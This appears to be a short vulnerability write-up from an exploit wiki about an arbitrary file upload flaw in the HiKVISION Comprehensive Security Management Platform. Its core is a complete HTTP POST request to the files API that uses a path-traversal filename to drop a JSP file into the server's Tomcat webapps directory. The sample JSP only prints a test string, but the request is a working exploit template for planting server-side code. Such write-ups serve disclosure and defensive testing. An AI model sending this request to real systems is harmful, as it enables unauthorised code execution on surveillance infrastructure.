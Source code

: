 # HiKVISION Comprehensive Security Management Platform files any file upload vulnerability

## Vulnerability Description

The HiKVISION comprehensive security management platform files interface has a vulnerability to upload any file. The attacker can upload any file through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HiKVISION integrated security management platform</span>

## Network surveying and mapping





## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681661275768-9965dbd4-176f-48bc-b55a-062dbe7c5317.png)

Need to open the operation management center (port 8001)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1686202553411-652899eb-3e94-487a-9e7f-f90e245aeb66.png)

```plain
POST /center/api/files;.html HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test3");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1686044472564-03129d33-f072-40d9-8570-0a96bbb6e30f.png)